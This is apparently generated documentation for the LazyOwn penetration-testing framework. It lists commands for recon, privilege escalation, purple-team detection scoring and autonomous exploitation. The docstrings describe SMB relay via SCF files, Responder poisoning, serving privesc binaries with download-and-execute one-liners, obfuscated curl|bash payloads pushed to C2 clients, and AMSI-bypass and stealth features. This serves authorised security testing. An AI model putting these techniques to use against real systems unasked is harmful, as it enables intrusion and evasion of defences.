- `_sessions_directory` (line 102) `def _sessions_directory(base_path)` - *Return the absolute path to the per-shell ``sessions/`` directory.

Args:
    base_path: Shell ``self.path`` (the repository working directory).

Returns:
    Absolute path of ``<base_path>/sessions``.*
- `_serve_via_http` (line 114) `def _serve_via_http(shell, binary_name, sessions_path, lport)` - *Spawn a background HTTP server rooted at ``sessions_path``.

Args:
    shell: The bound shell exposing ``cmd``.
    binary_name: Filename being announced. Used only for log clarity.
    sessions_path: Directory served by the HTTP server.
    lport: Listening port copied from ``payload.json``.*

**Methods:**
- `do_smbserver` (line 139) `def do_smbserver(self, line)` - *Stand up an Impacket SMB server with three relay variants.

Variant 1 generates an SCF file under ``sessions/file.scf`` that
triggers SMB auth from victims browsing the share. Variant 2
copies a ``dnscmd`` DLL load one-liner for DA pivoting. Variant 3
publishes the share with ``guest`` credentials for blind file
drops.

Args:
    line: Optional share folder name. Defaults to
        :data:`DEFAULT_SMB_FOLDER`.

Returns:
    None.*
- `do_responder` (line 197) `def do_responder(self, line)` - *Run Responder on the configured ``device`` with elevated privileges.

Installs the package via ``apt`` when the binary is missing, then
invokes ``sudo responder -I <device> -w On`` so SMB/LLMNR/NBNS
poisoning starts immediately.

Args:
    line: Unused.

Returns:
    None.*
- `do_sudo` (line 222) `def do_sudo(self, line)` - *Re-launch the framework with root privileges when missing.

Args:
    line: Unused.

Returns:
    None.*
- `do_linpeas` (line 235) `def do_linpeas(self, line)` - *Serve ``linpeas.sh`` over HTTP and print the target one-liner.

Searches the configured candidates for the script, copies it
into ``sessions/`` and spawns a background HTTP server bound to
``lhost:lport`` so the compromised host can pull and execute it.

Args:
    line: Optional ``small`` flag to switch to ``linpeas_small.sh``.

Returns:
    None.*
- `do_winpeas` (line 271) `def do_winpeas(self, line)` - *Serve a winPEAS variant over HTTP and print the target one-liner.

Selects the variant by argument: default x64, ``x86`` for 32-bit,
``bat`` for the batch script (no AV evasion), ``ps1`` for the
PowerShell port, or ``any`` for the merged binary.

Args:
    line: Variant selector. Empty defaults to :data:`WINPEAS_DEFAULT`.

Returns:
    None.*
- `do_les` (line 310) `def do_les(self, line)` - *Run Linux Exploit Suggester against a kernel version.

When no version is supplied, attempts to read it from
``sessions/os.json``. Falls back to a warning when the kernel
cannot be determined.

Args:
    line: Optional explicit kernel version (``uname -r`` output).

Returns:
    None.*
- `do_suid_check` (line 350) `def do_suid_check(self, line)` - *Print SUID/SGID enumeration commands ready to paste on the target.

Args:
    line: Unused.

Returns:
    None.*
- `do_pspy` (line 369) `def do_pspy(self, line)` - *Serve the ``pspy`` process monitor over HTTP.

Args:
    line: ``32`` to serve ``pspy32``; anything else serves
        ``pspy64``.

Returns:
    None.*
- `do_gtfo` (line 403) `def do_gtfo(self, line)` - *Look up a binary in GTFOBins and LOLBas parquet knowledge bases.

Args:
    line: Binary name to search (case-insensitive). Empty input
        emits a usage error.

Returns:
    None.*
- `do_whoami_priv` (line 450) `def do_whoami_priv(self, line)` - *Print privilege enumeration commands for the target OS.

Detects the target OS from ``payload.json`` or ``sessions/os.json``
and prints a ready-to-paste set of commands that reveal the current
user's privileges, group memberships, and dangerous tokens.

Args:
    line: Unused.

Returns:
    None.*
- `_whoami_priv_linux` (line 480) `def _whoami_priv_linux(self)` - *Print Linux privilege enumeration commands.*
- `_whoami_priv_windows` (line 496) `def _whoami_priv_windows(self)` - *Print Windows privilege enumeration commands.*
- `do_sudo_privesc` (line 512) `def do_sudo_privesc(self, line)` - *Analyse sudo -l output and cross-reference with GTFOBins.

Reads sudo -l output from a session file or command argument and
identifies binaries with documented privilege escalation bypasses
from the GTFOBins parquet knowledge base.

Args:
    line: Optional path to a file containing sudo -l output.
        When empty, attempts to read from the last session report.

Returns:
    None.*
- `do_printspoofer` (line 610) `def do_printspoofer(self, line)` - *Serve PrintSpoofer over HTTP for Windows privilege escalation.

Searches for ``PrintSpoofer64.exe`` in configured directories,
copies it to ``sessions/`` and serves it via HTTP. Prints the
target one-liner for download + execution.

Args:
    line: Unused.

Returns:
    None.*
- `do_juicypotato` (line 632) `def do_juicypotato(self, line)` - *Serve JuicyPotato over HTTP for Windows privilege escalation.

Searches for ``JuicyPotato.exe`` in configured directories,
copies it to ``sessions/`` and serves it via HTTP. Prints the
target one-liner for download + execution.

Args:
    line: Optional CLSID for the potato attack. Defaults to
        the BITS CLSID when omitted.

Returns:
    None.*
- `_serve_windows_tool` (line 656) `def _serve_windows_tool(self, binary, label, description, args)` - *Serve a Windows privilege escalation binary over HTTP.

Args:
    binary: Filename to search for and serve.
    label: Human-readable tool name for log messages.
    description: One-line description of the technique.
    args: Additional CLI arguments for the tool on the target.

Returns:
    None.*
- `_detect_os_for_privesc` (line 695) `def _detect_os_for_privesc(self)` - *Detect the target OS from world_model.json or sessions/os.json.

Checks the world model first for the host matching ``rhost``, then
falls back to ``sessions/os.json``.

Returns:
    ``"linux"``, ``"windows"``, or ``""`` if unknown.*
- `do_privesc_cmd_by_os` (line 754) `def do_privesc_cmd_by_os(self, line)` - *Prepare and send a linpeas/winpeas command to a C2 client.

Detects the target OS from the world model or ``os.json``, builds a
ofuscated (base64) curl|bash one-liner via ``ofuscate_payload`` and
sends it to the specified C2 client via ``issue_command_to_c2``.

Args:
    line: ``<client_id> [--small]``

Returns:
    None*

#### `purple_team.py`
**Path:** `cli/commands/purple_team.py`
**File Doc:** *Purple Team CommandSet: closed-loop offensive detection measurement.  Exposes commands that orchestrate the red->blue->purple cycle:  * ``purple_exec`` — execute a red action and measure detection via LazyOwnBT * ``purple_test`` — measure without executing (dry-run, ai_test only) * ``purple_score`` — show current engagement detection score * ``purple_report`` — generate full engagement report with datasets * ``purple_methods`` — list available detection methods * ``purple_config`` — show/update purple team configuration * ``purple_history`` — show recent purple team results  Each command generates CSV datasets for ML training and feedback for the DetectionOracle calibration loop.*

**Classes:**
- `PurpleTeamCommandSet` (line 124) `class PurpleTeamCommandSet(LazyOwnCommandSet)` - *Purple team orchestration commands for the LazyOwn shell.*

**Functions:**
- `_build_exec_parser` (line 29) `def _build_exec_parser()`
- `_build_test_parser` (line 67) `def _build_test_parser()`
- `_build_config_parser` (line 92) `def _build_config_parser()`
- `_build_history_parser` (line 106) `def _build_history_parser()`

**Methods:**
- `_get_loop` (line 130) `def _get_loop(self)` - *Build a PurpleTeamLoop from payload.json config.*
- `do_purple_exec` (line 144) `def do_purple_exec(self, line)` - *Execute a red action and measure if LazyOwnBT detects it.

Usage: purple_exec <command> [args...] [category]
The last word is category if it matches a known category.
Example: purple_exec nmap -sV 127.0.0.1 recon
Example: purple_exec lazynmap recon*
- `do_purple_test` (line 203) `def do_purple_test(self, args)` - *Test if LazyOwnBT would detect a command (no execution).

Dry-run mode: queries BT detection methods without actually
executing the red action. Useful for pre-engagement assessment.*
- `do_purple_score` (line 223) `def do_purple_score(self, line)` - *Show current engagement detection score.

Displays total actions, detection rate, per-category and per-method
breakdowns. Written to sessions/purple_score.json.*
- `do_purple_report` (line 271) `def do_purple_report(self, line)` - *Generate full engagement report with datasets.

Produces sessions/purple_report.json with score, oracle accuracy,
per-action results, and dataset paths for ML training.*
- `do_purple_methods` (line 285) `def do_purple_methods(self, line)` - *List available LazyOwnBT detection methods.*
- `do_purple_config` (line 297) `def do_purple_config(self, args)` - *Show or update purple team configuration (payload.json).*
- `do_purple_dashboard` (line 350) `def do_purple_dashboard(self, line)` - *Launch the Purple Team TUI dashboard.

Full-screen Textual interface showing engagement score,
detection rates, recent actions, and ML dataset stats.
Press Q to return to the shell.*
- `do_purple_history` (line 367) `def do_purple_history(self, args)` - *Show recent purple team action results.*

#### `pwn.py`
**Path:** `cli/commands/pwn.py`
**File Doc:** *Autonomous exploitation and LOLBAS command set.  New chingon commands: auto_pwn, rich_tui, lolbas_list, lolbas_use, exploit_chain, stealth.*

**Classes:**
- `PwnCommandSet` (line 28) `class PwnCommandSet(LazyOwnCommandSet)` - *Autonomous exploitation, LOLBAS, and advanced attack commands.*

**Methods:**
- `do_auto_pwn` (line 35) `def do_auto_pwn(self, line)` - *Run the full autonomous exploitation chain against the target.

Usage:
    auto_pwn [--pivot] [--privesc] [--stealth low|medium|high|paranoid]

Executes recon, vulnerability scanning, exploit selection,
exploitation, optional privilege escalation and auto-pivoting.*
- `do_rich_tui` (line 109) `def do_rich_tui(self, line)` - *Launch the Rich-based live dashboard TUI.

Usage:
    rich_tui [--interval 3]

Opens a real-time htop-style terminal dashboard showing host
topology, service status, exploit recommendations, active
pivots and beacons. Press 'q' to quit.*
- `do_exploit_chain` (line 158) `def do_exploit_chain(self, line)` - *AI-driven multi-step exploit chaining with fallback strategies.

Usage:
    exploit_chain <target_ip>

Uses heuristic reasoning to chain exploits: if one fails,
the engine analyzes the failure and pivots to an alternative
strategy automatically.*
- `do_lolbas_list` (line 245) `def do_lolbas_list(self, line)` - *List available LOLBAS (Living Off The Land) techniques from plugins.

Usage:
    lolbas_list [amsi|etw|powershell|dotnet|all]

Displays evasion and execution techniques that use native OS
binaries and scripts to bypass security controls.*
- `do_lolbas_use` (line 302) `def do_lolbas_use(self, line)` - *Execute a specific LOLBAS technique.

Usage:
    lolbas_use <plugin>/<technique_name>

Example: lolbas_use amsi_bypass/amsiInitFailed*
- `do_stealth_on` (line 394) `def do_stealth_on(self, line)` - *Enable stealth mode for subsequent operations.

Usage:
    stealth_on [low|medium|high|paranoid]

Adds delays between operations, limits concurrency, and applies
traffic shaping to avoid detection.*
- `do_stealth_off` (line 422) `def do_stealth_off(self, line)` - *Disable stealth mode.*

#### `recon.py`
**Path:** `cli/commands/recon.py`
**File Doc:** *Reconnaissance command set.  Network reconnaissance commands: nmap variants, DNS tools, web fingerprinting, and quick recon scripts.*

**Classes:**
- `ReconCommandSet` (line 40) `class ReconCommandSet(LazyOwnCommandSet)` - *Reconnaissance phase commands.*

**Functions:**
- `_run_single_search` (line 521) `def _run_single_search(query)`

**Methods:**
- `do_batchnmap` (line 47) `def do_batchnmap(self, line)` - *Runs the internal module `modules/lazynmap.sh` for multiple Nmap scans.

This method executes the `lazynmap` script, using the current working directory
and the `rhost` parameter from the `self.params` dictionary as the target IP.
If `rhost` is not set, it prints an error message.

:return: None*
- `do_lazynmap` (line 74) `def do_lazynmap(self, line)` - *Runs the internal module `modules/lazynmap.sh` with target mode.

OS detection (via ping TTL) is performed automatically before scanning
when the target OS is not yet known, so that tool selectors downstream
have a valid platform context.

:param line: The network IP to scan. Defaults to rhost from params.
:type line: str

:return: None*
- `do_dig` (line 154) `def do_dig(self, line)` - *Executes the `dig` command to query DNS information.

1. Retrieves the DNS server IP from the `line` parameter and the target host from the `rhost` parameter.
2. If either the DNS server or `rhost` is not provided, an error message is printed.
3. Executes the `dig` command to query the version of the DNS server and additional records.

:param line: DNS server IP or hostname. Must be provided for the `dig` command.
:param rhost: Target host for additional `dig` queries.

:returns: None

Manual execution:
To manually run these commands, use the following syntax:
    dig version.bind CHAOS TXT @<dns_server>
    dig any <domain> @<rhost>

Replace `<dns_server>` with the IP address or hostname of the DNS server, `<domain>` with the target domain, and `<rhost>` with the IP address or hostname of the target machine.*
- `do_dnsenum` (line 186) `def do_dnsenum(self, line)` - *Performs DNS enumeration using `dnsenum` to identify subdomains for a given domain.

1. Executes the `dnsenum` command with parameters to specify the DNS server, output file, and wordlist for enumeration.

:param line: The target domain to perform DNS enumeration on, e.g., `ghost.htb`.
:param rhost: The DNS server to use for enumeration, e.g., `10.10.11.24`.
:param dnswordlist: The path to the DNS wordlist file used for subdomain discovery.

:returns: None

Manual execution:
To manually perform DNS enumeration, use the following command:
    dnsenum --dnsserver <dns_server> --enum -p 0 -s 0 -o <output_file> -f <dns_wordlist> <target_domain>

Replace `<dns_server>` with the DNS server IP, `<output_file>` with the file path to save the results, `<dns_wordlist>` with the path to your DNS wordlist file, and `<target_domain>` with the domain to be enumerated.

For example:
    dnsenum --dnsserver 10.10.11.24 --enum -p 0 -s 0 -o sessions/subdomains.txt -f /path/to/dnswordlist.txt ghost.htb*
- `do_dnsmap` (line 222) `def do_dnsmap(self, line)` - *Performs DNS enumeration using `dnsmap` to discover subdomains for a specified domain.

1. Executes the `dnsmap` command to scan the given domain with a specified wordlist.

:param line: The target domain to perform DNS enumeration on, e.g., `ghost.htb`.
:param dnswordlist: The path to the wordlist file used for DNS enumeration.

:returns: None

Manual execution:
To manually perform DNS enumeration, use the following command:
    dnsmap <target_domain> -w <dns_wordlist>

Replace `<target_domain>` with the domain you want to scan and `<dns_wordlist>` with the path to your DNS wordlist file.

For example:
    dnsmap ghost.htb -w /path/to/dnswordlist.txt*
- `do_whatweb` (line 255) `def do_whatweb(self, line)` - *Performs a web technology fingerprinting scan using `whatweb`.

1. Executes the `whatweb` command to identify technologies used by the target web application.

:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.
:param rhost: The target web host to be scanned, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually perform web technology fingerprinting, use the following command:
    whatweb <target_host>

Replace `<target_host>` with the URL or IP address of the web application you want to scan.

For example:
    whatweb example.com*
- `do_nbtscan` (line 292) `def do_nbtscan(self, line)` - *Performs network scanning using `nbtscan` to discover NetBIOS names and addresses in a specified range.

1. Executes the `nbtscan` command with the `-r` option to scan the specified range of IP addresses for NetBIOS information.

:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.
:param rhost: The target network range for scanning, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually perform a NetBIOS scan across a network range, use the following command:
    sudo nbtscan -r <network_range>

Replace `<network_range>` with the IP address range you want to scan. For example:
    sudo nbtscan -r 192.168.1.0/24*
- `do_nikto` (line 320) `def do_nikto(self, line)` - *Runs the `nikto` tool to perform a web server vulnerability scan against the specified target host.

1. Executes `nikto` with the `-h` option to specify the target host IP address.
2. Installs `nikto` if it is not already installed.

:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.
:param rhost: The IP address of the target web server, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually perform a web server vulnerability scan using `nikto`, use the following command:
    nikto -h <target_ip>

Replace `<target_ip>` with the IP address of the target web server. For example:
    nikto -h 10.10.10.10*
- `do_finalrecon` (line 429) `def do_finalrecon(self, line)` - *Runs the `finalrecon` tool to perform a web server vulnerability scan against the specified target host.

1. Executes `finalrecon` with the `-h` option to specify the target host IP address.

:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.
:param rhost: The IP address of the target web server, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually perform a web server vulnerability scan using `finalrecon`, use the following command:
    finalrecon --url=http://<target_ip> --full -o txt -cd <directory_reports>

Replace `<target_ip>` with the IP address of the target web server. For example:
    finalrecon --url=http://192.168.1.92 --full -o txt -cd /home/gris/finalrecon*
- `do_openssl_sclient` (line 461) `def do_openssl_sclient(self, line)` - *Uses `openssl s_client` to connect to a specified host and port, allowing for testing and debugging of SSL/TLS connections.

:param line: The port number to connect to on the target host. This must be provided as an argument.
:param rhost: The IP address or hostname of the target server, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually connect to a server using `openssl s_client` and test SSL/TLS, use the following command:
    openssl s_client -connect <target_ip>:<port>

Replace `<target_ip>` with the IP address or hostname of the target server and `<port>` with the port number. For example:
    openssl s_client -connect 10.10.10.10:443*
- `do_ss` (line 491) `def do_ss(self, line)` - *Search all exploit sources and map findings to the next LazyOwn command.

Without arguments: reads the nmap XML for the current rhost, extracts
every open service+version, searches all sources for each one, saves
structured results to sessions/ss_results_<rhost>.json, creates tasks
for services with hits, and prints a 'what to try next' table.

With a manual query: runs the full multi-source search (searchsploit,
NVD, ExploitAlert, PacketStorm, MSF, Sploitus) for that term and shows
recommended commands for the matching service.

Usage:
    ``ss``                  — auto-scan from nmap XML for current rhost
    ``ss apache 2.4.49``    — manual query
    ``ss OpenSSH 8.4``      — manual query*
- `do_wfuzz` (line 654) `def do_wfuzz(self, line)` - *Uses `wfuzz` to perform fuzzing based on provided parameters. This function supports various options for directory and file fuzzing.

:param line: The options and arguments for `wfuzz`. The `line` parameter can include the following:
    - `sub <domain>`: Fuzz DNS subdomains. Requires `dnswordlist` to be assign.
    - `iis`: Fuzz IIS directories. Uses a default wordlist if `iiswordlist` is not assign.
    - Any other argument: General directory and file fuzzing.

:returns: None

Manual execution:
To manually use `wfuzz` for directory and file fuzzing, use the following commands:

1. For fuzzing DNS subdomains:
    wfuzz -c <extra_options> -t <threads> -w <wordlist> -H 'Host: FUZZ.<domain>' <domain>

Example:
    wfuzz -c --hl=7 -t 200 -w /path/to/dnswordlist -H 'Host: FUZZ.example.com' example.com

2. For fuzzing IIS directories:
    wfuzz -c <extra_options> -t <threads> -w /path/to/iiswordlist http://<rhost>/FUZZ

Example:
    wfuzz -c --hl=7 -t 200 -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt http://10.10.10.10/FUZZ

3. For general directory and file fuzzing:
    wfuzz -c <extra_options> -t <threads> -w <wordlist> http://<rhost>/FUZZ

Example:
    wfuzz -c --hl=7 -t 200 -w /path/to/dirwordlist http://10.10.10.10/FUZZ*

#### `recon_migrated.py`
**Path:** `cli/commands/recon_migrated.py`
**File Doc:** *recon commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `ReconMigratedCommandSet` (line 38) `class ReconMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `_set_exit` (line 202) `def _set_exit(code)`

**Methods:**
- `do_surface` (line 43) `def do_surface(self, line)` - *Render the network surface graph in the terminal.

Mirrors the ``vis.js`` graph at ``http://<lhost>:<c2_port>/`` but
works entirely from the filesystem: it reads the same artefacts
``lazyc2.py`` consumes (``sessions/hostsdiscovery.txt``,
``sessions/scan_discovery*.csv``, per-implant ``sessions/<id>.log``,
``payload.json``) so the operator can inspect the picture from a
cmd2 shell with no Flask server attached.

Usage:
    ``surface``         — print a static Rich tree + stats table.
    ``surface --tui``   — open the full-screen Textual explorer.
    ``surface --json``  — emit the graph as JSON.
    ``surface --help``  — show this message.

:param line: optional flags ``--tui``, ``--json`` or ``--help``.
:type line: str
:return: None*
- `do_getcap` (line 97) `def do_getcap(self, line)` - *Retrieve and display file capabilities on the system.

This function uses the `getcap` command to recursively list capabilities for files starting from the root directory (`/`). The output is filtered to suppress error messages.

Usage:
    getcap

:param line: This parameter is not used in this function.
:type line: str

:returns: None

Manual execution:
1. Run the `getcap -r /` command to list file capabilities recursively from the root directory.
2. Redirect standard error to `/dev/null` to suppress error messages.
3. Copy to clipboard the command to appy in the victim machine.
Dependencies:
- `getcap` must be installed on the system.

Example:
    To execute the function, simply call `do_getcap`.

Note:
    - The command may require elevated permissions to access certain directories and files.*
- `do_launchpad` (line 131) `def do_launchpad(self, line)` - *Searches for packages on Launchpad based on the provided search term and extracts codenames from the results. The distribution is extracted from the search term.

:param line: The search term to be used for querying Launchpad. The `line` parameter should be a string containing
            the search term, e.g., "8.2p1 Ubuntu 4ubuntu0.11".

:returns: None

Manual execution:
To manually execute the equivalent command, use the following steps:

1. Extract the distribution from the search term:
- This function assumes the distribution name is part of the search term and is used to build the URL.

2. URL encode the search term:
- Replace spaces with `%20` to form the encoded search query.

3. Use `curl` to perform the search and filter results:
curl -s "https://launchpad.net/+search?field.text=<encoded_search_term>" | grep 'href' | grep '<distribution>' | grep -oP '(?<=href="https://launchpad.net/<distribution>/)[^/"]+' | sort -u

Example:
    If the search term is "8.2p1 Ubuntu 4ubuntu0.11", the command would be:
    curl -s "https://launchpad.net/+search?field.text=8.2p1%20Ubuntu%204ubuntu0.11" | grep 'href' | grep 'ubuntu' | grep -oP '(?<=href="https://launchpad.net/ubuntu/)[^/"]+' | sort -u

Notes:
    - Ensure that `curl` is installed and accessible in your environment.
    - The extracted codenames are printed to the console.*
- `do_ping` (line 177) `def do_ping(self, line)` - *Perform a ping to check host availability and infer the operating system based on TTL values.

:param line: This parameter is not used in the function but could be used for additional options or settings.

:returns: None

Manual execution:
To manually ping a host and determine its operating system, use the following command:

    ping -c 1 <target>

Example:
    ping -c 1 10.10.10.10

The TTL (Time To Live) value is used to infer the operating system:
- TTL values around 64 typically indicate a Linux system.
- TTL values around 128 typically indicate a Windows system.

Ensure you have assign `self.params['rhost']` to the target host for the command to work.*
- `do_gospider` (line 285) `def do_gospider(self, line)` - *Try gospider for web spidering.

This function executes the `gospider` tool to perform web spidering. It can either use a URL provided as a parameter or the remote host defined in `self.params`.

Usage:
    gospider url
    gospider

:param line: Command parameter that determines the execution mode. Use "url" to specify a URL, or leave empty to use the remote host.
:type line: str

- If `line` is "url", the method uses the URL specified in `self.params['url']`.
- If `line` is not "url", the method uses the remote host specified in `self.params['rhost']`.

:returns: None

Manual execution:
1. Ensure that the `gospider` tool is installed on the system.
2. assign the `url` parameter if using the "url" mode.
3. Run the method to perform the spidering operation.

Dependencies:
- `gospider` must be installed on the system.
- The `sudo` command must be available for installing `gospider`.

Examples:
    1. To scan a specific URL: `gospider url`
    2. To scan the remote host: `gospider`

Note:
    - If `gospider` is not installed, the method will attempt to install it.
    - Ensure that the network and tools are configured correctly for successful execution.*
- `do_proxy` (line 373) `def do_proxy(self, line)` - *Runs a small proxy server to modify HTTP requests on the fly.

This function starts the `lazyproxy.py` script, which acts as a proxy server for intercepting and modifying HTTP requests. The server listens on port 8888.

Usage:
    proxy

:param line: This parameter is not used in the current implementation.
:type line: str
:returns: None

Manual execution:
1. Executes the `lazyproxy.py` script to start the proxy server.
2. The proxy server will run and modify requests as configured in the script.

Dependencies:
- The `lazyproxy.py` script must be available in the `modules` directory.

Example:
    proxy

Note:
    - Ensure that the `lazyproxy.py` script is correctly configured before running.
    - The proxy server will be accessible at `http://localhost:8888`.
    - To stop the proxy server, terminate the running process manually.*
- `do_ports` (line 411) `def do_ports(self, line)` - *Lists all open TCP and UDP ports on the local system.

This function performs the following actions:
1. Calls the `get_open_ports` function to retrieve lists of open TCP and UDP ports.
2. Prints a header for open TCP ports.
3. Iterates over the list of open TCP ports, printing each IP address and port number.
4. Prints a header for open UDP ports.
5. Iterates over the list of open UDP ports, printing each IP address and port number.

Usage:
    ports

:param line: This parameter is not used in the function.
:type line: str
:returns: None

Manual execution:
To manually use this function:
1. Ensure the `get_open_ports` function is defined and properly implemented to return lists of open TCP and UDP ports.
2. Run the function to display open TCP and UDP ports on the local system.

Note: The `get_open_ports` function should return two lists of tuples: one for TCP ports and one for UDP ports. Each tuple should contain an IP address and a port number.*
- `do_tcpdump_icmp` (line 453) `def do_tcpdump_icmp(self, line)` - *Starts `tcpdump` to capture ICMP traffic on the specified interface.

1. Checks if the `line` argument (interface) is provided:
- Displays an error message and exits if the interface is missing.

2. If the interface is provided:
- Displays the `tcpdump` command that will be executed.
- Runs the `tcpdump` command to capture ICMP traffic on the specified interface.

:param line: The network interface on which to capture ICMP traffic (e.g., `tun0`).
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Provide a valid network interface for capturing ICMP traffic.
- Execute the `tcpdump` command manually to capture ICMP traffic on the specified interface.

Note: Ensure that you have sufficient permissions to run `tcpdump` on the specified interface.*
- `do_tcpdump_capture` (line 486) `def do_tcpdump_capture(self, line)` - *Starts packet capture using `tcpdump` on the specified interface.

1. Checks if the `line` argument (interface) is provided:
- Displays an error message and exits if the interface is missing.

2. Validates the `self.params['rhost']` (remote host IP):
- Exits the function if the `self.params['rhost']` is not valid.

3. If the interface and `self.params['rhost']` are valid:
- Displays the `tcpdump` command that will be executed.
- Runs the `tcpdump` command to capture packets on the specified interface and save the capture file to `pcaps/capture_<self.params['rhost']>.pcap`.

:param line: The network interface on which to capture packets (e.g., `tun0`).
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Provide a valid network interface for capturing packets.
- Ensure the remote host IP is assign correctly.
- Execute the `tcpdump` command manually to capture packets on the specified interface.

Note: Ensure that the `pcaps` directory exists and is writable for saving the capture file.*
- `do_tshark_analyze` (line 527) `def do_tshark_analyze(self, line)` - *Analyzes a packet capture file using `tshark` based on the provided remote host IP.

1. Checks if the `self.params['rhost']` (remote host IP) is valid:
- Displays an error message and exits if the `self.params['rhost']` is not valid.

2. Verifies the existence of the packet capture file:
- Displays an error message and exits if the capture file is missing.
- Prompts the user to run the `do_tcpdump_capture` command first.

3. If the capture file exists:
- Displays the `tshark` command that will be executed.
- Runs the `tshark` command to analyze the packet capture file and print out IP destination and frame time fields.

:param line: The command line input specifying the interface for capturing packets.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Ensure the remote host IP is valid.
- Run the `do_tcpdump_capture` command to capture packets.
- Execute the `tshark` command manually to analyze the packet capture file.

Note: Ensure that the capture file `pcaps/capture_<self.params['rhost']>.pcap` is available in the `pcaps` directory.*
- `do_waybackmachine` (line 593) `def do_waybackmachine(self, line)` - *Fetch URLs from the Wayback Machine for a given website.
The URL is taken from line. If the URL is not provided, an error is printed.
The limit of results is taken from self.params['limit'] if provided; otherwise, defaults to 10.
Results are printed directly to the console.*
- `do_sslscan` (line 633) `def do_sslscan(self, line)` - *Run an SSL scan on the specified remote host.

This function initiates an SSL scan on a specified remote host (`self.params['rhost']`)
using the `sslscan-singleip.sh` script. If a specific port is provided in the
`line` argument, the scan will target that port; otherwise, it will scan
all available ports.

Parameters:
line (str): The port number to scan (optional). If omitted, the scan will target all ports.

Internal Variables:
self.params['rhost'] (str): The remote host IP address or hostname extracted from the `params` attribute.

Returns:
None

Example Usage:
- To scan all ports on the specified `self.params['rhost']`: `sslscan`
- To scan a specific port (e.g., port 443) on `self.params['rhost']`: `sslscan 443`

Note:
- The `check_rhost()` function is used to validate the `self.params['rhost']` before running the scan.
- The `sslscan-singleip.sh` script must be present in the `sessions` directory.*
- `do_graudit` (line 674) `def do_graudit(self, line)` - *Executes the graudit command to perform a static code analysis with the specified options.

This function runs the 'graudit' tool with the '-A' option for an advanced scan and
the '-i sessions' option to include session files. The results will be displayed
directly in the terminal.

Args:
    line (str): Input line from the command interface. This argument is currently
                not used within the function but is required for the command
                interface structure.

Example:
    To run this function from the command interface, simply type 'graudit' and press enter.
    The function will execute the 'graudit -A -i sessions' command.

Note:
    Ensure that 'graudit' is installed and properly configured in your system's PATH
    for this function to work correctly.*
- `do_sherlock` (line 705) `def do_sherlock(self, line)` - *Executes the Sherlock tool to find usernames across social networks.

This function takes a username as an argument and runs the Sherlock tool
to check for the username's presence on various social networks. The
results are saved in CSV format in the `sessions` directory.

Parameters:
line (str): The username to be checked by Sherlock. If not provided, an
            error message is printed and the function returns.

Returns:
None

Raises:
None

Example:
>>> do_sherlock("example_user")
Running command: sherlock example_user --local -v --csv --print-found

Additional Notes:
- The Sherlock tool must be installed and available in the system path.
- The results are saved in the `sessions` directory as a CSV file.
- The `--local` flag forces the use of a local `data.json` file,
which should be present in the appropriate directory.*
- `do_trufflehog` (line 746) `def do_trufflehog(self, line)` - *Executes trufflehog to search for secrets in a given Git repository URL.
If trufflehog is not installed, it installs the tool automatically.
This function navigates to the 'sessions' directory and runs trufflehog
with the provided Git URL, outputting the results in JSON format.

Args:
    line (str): The Git repository URL to scan for secrets.

Returns:
    None

Raises:
    None

Example:
    trufflehog https://github.com/user/repo.git

Notes:
    - Ensure that trufflehog is installed or it will be installed automatically.
    - The output of the trufflehog scan is printed and executed in the 'sessions' directory.*
- `do_apache_users` (line 784) `def do_apache_users(self, line)` - *Performs enumeration of users from a target system using `apache-users`.

1. Executes the `apache-users` command with the `-h` option to specified target.

:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.
:param self.params['rhost']: The target host for enumeration, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually enumerate information from a system, use the following command:
    apache-users -h <target_host> -l <wordlist> -p <apache_port> -s 0 -e 403 -t 10

Replace `<target_host>` with the IP address or hostname of the target system.

For example:
    apache-users -h 192.168.1.202 -l /usr/share/wordlists/metasploit/unix_users.txt -p 80 -s 0 -e 403 -t 10*
- `do_trace` (line 831) `def do_trace(self, line)` - *Traces the DNS information for a given self.params['domain'] using the FreeDNS service. (using freedns IP Not your IP)

This method performs a DNS trace lookup for the specified self.params['domain'] by
sending an HTTP GET request to the FreeDNS service. If no self.params['domain'] is provided
in the input parameter `line`, it defaults to using the URL specified in the
instance's parameters.

Parameters:
line (str): The self.params['domain'] name to trace. If not provided, the method uses the
            self.params['domain'] extracted from `self.params['url']`.

Returns:
None: This method executes a system command and does not return a value.

Example:
>>> self.do_trace("example.com")
Executes a DNS trace for "example.com".

Notes:
- Ensure that the `self.params['url']` is set with a valid URL if no self.params['domain']
is provided.
- The method uses `os.system` to execute the trace command, which may not
be the most secure or efficient method for production code. Consider using
a library like `requests` for HTTP operations if security and efficiency
are concerns.*
- `do_alterx` (line 874) `def do_alterx(self, line)` - *Executes the 'alterx' command for subdomain enumeration on the provided self.params['domain']. If 'alterx'
is not installed, the function automatically downloads, installs, and configures it. The result
of the subdomain enumeration is saved in a session-specific text file.

Steps performed by the function:

1. **Check if 'alterx' is installed:**
- Uses `is_binary_present("alterx")` to verify if the 'alterx' binary is available in the system.
- If the binary is not found, the function prints a warning and proceeds to download and install 'alterx'.

2. **Installation of 'alterx':**
- Executes a system command to create a directory named 'alterx' in the user's home directory.
- Downloads the 'alterx' version 0.0.4 (Linux 64-bit) from GitHub and extracts it into the 'alterx' directory.

3. **Add 'alterx' to system PATH:**
- Depending on the user's shell (`bash` or `zsh`), it appends the 'alterx' directory to the system PATH
    by modifying the appropriate shell configuration file (`~/.bashrc` or `~/.zshrc`). This ensures 'alterx'
    can be executed from any directory.

4. **Obtain the self.params['domain']:**
- Retrieves the URL from the class parameter `self.params['url']`.
- Extracts the self.params['domain'] from the URL using `get_domain(url)`.
